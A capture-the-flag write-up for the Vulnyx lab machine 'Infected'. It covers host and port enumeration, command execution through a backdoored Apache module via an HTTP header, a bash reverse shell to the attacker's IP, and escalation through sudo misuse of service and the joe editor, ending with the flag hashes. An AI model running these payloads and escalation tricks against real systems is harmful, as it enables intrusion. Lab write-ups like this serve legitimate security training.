



# Infected ​​

## 🖥️ Writeup - Infected

**Platform:** Vulnyx\
**Operating System:** Linux

> **Tags:** `Linux` `Apache` `Information Disclosure` `mod_backdoor` `HTTP Headers` `RCE` `Sudoers` `Service` `Directory Traversal`

## INSTALLATION

We download the `zip` containing the `.ova` of the Infected machine, extract it, and import it into VirtualBox.

We configure the network interface of the Infected machine and run it alongside the attacker machine.

## HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to Infected, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:

```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:53:c4:af      1      60  PCS Systemtechnik GmbH      
 10.0.4.33       08:00:27:92:63:1c      1      60  PCS Systemtechnik GmbH
```

We identify with high confidence that the victim’s IP is `10.0.4.33`.

## PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.33
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 10.0.4.33
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-08 20:38 CET
Nmap scan report for 10.0.4.33
Host is up (0.00017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:92:63:1C (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

We identify ports `22` and `80` as open.

We access the web service on port `80` and find a default `Apache2` page.

## GOBUSTER

We perform `directory fuzzing` to try to locate hidden directories or files.

```bash
gobuster dir -u http://10.0.4.33 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.4.33
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sh,html,zip,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/info.php             (Status: 200) [Size: 114336]
Progress: 28533 / 1543906 (1.85%)
```

We discover the `info.php` file and proceed to inspect it in search of exploitation vectors.



Among the loaded modules, we find one named `mod_backdoor`.

We search the internet and find an exploit for this module:



## EXPLOITATION

As we can see in the exploit, we can execute commands by passing a header `{Backdoor: command}`.

We are going to test it with `curl`.

```bash
curl -H "Backdoor: id" "http://10.0.4.33"
```

Info:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It works!

We are going to leverage this to obtain a `reverse shell` as the `www-data` user.

First of all, we set up a `listener` on our attacking machine, waiting to receive the connection.

```bash
nc -nlvp 4444
```

Next, we execute the malicious command.

```bash
curl -H "Backdoor: bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1" "http://10.0.4.33"
```

Info:

```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.33] 38530
bash: cannot set terminal process group (488): Inappropriate ioctl for device
bash: no job control in this shell
www-data@infected:/$
```

We successfully receive the `reverse shell`.

## TTY

Before attempting privilege escalation, we upgrade the `TTY` for a more interactive shell:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## PRIVILEGE ESCALATION

We check for `sudo` and `SUID` permissions.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for www-data on infected:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on infected:
    (laurent) NOPASSWD: /usr/sbin/service
```

We see that we can execute the `service` binary with the privileges of user `laurent`. We take advantage of this to perform lateral movement to the user `laurent` with the following command:

```bash
sudo -u laurent service ../../bin/bash
```

Info:

```
laurent@infected:/$ whoami
laurent
laurent@infected:/$
```

Once we become the `laurent` user, we check for `sudo` and `SUID` permissions again.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for laurent on infected:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User laurent may run the following commands on infected:
    (root) NOPASSWD: /usr/bin/joe
```

We see that we can execute the `joe` binary with `root` privileges. We execute it since we don't know what it is.

```bash
sudo -u root /usr/bin/joe
```

An interactive console opens. We discover that by pressing `Ctrl + K`, followed by `!`, a prompt appears to execute a command.



We execute the command `/bin/bash`.

Info:

```
root@infected:/# whoami
root
root@infected:/#
```

We are now root!

We obtain the `user flag` and the `root flag`:

```
root@infected:~# cat user.txt
6b9d5de6ddf297338e9ce2788198540c
root@infected:~# cat root.txt 
ffb4622f083564d104e0549e201703dc
```
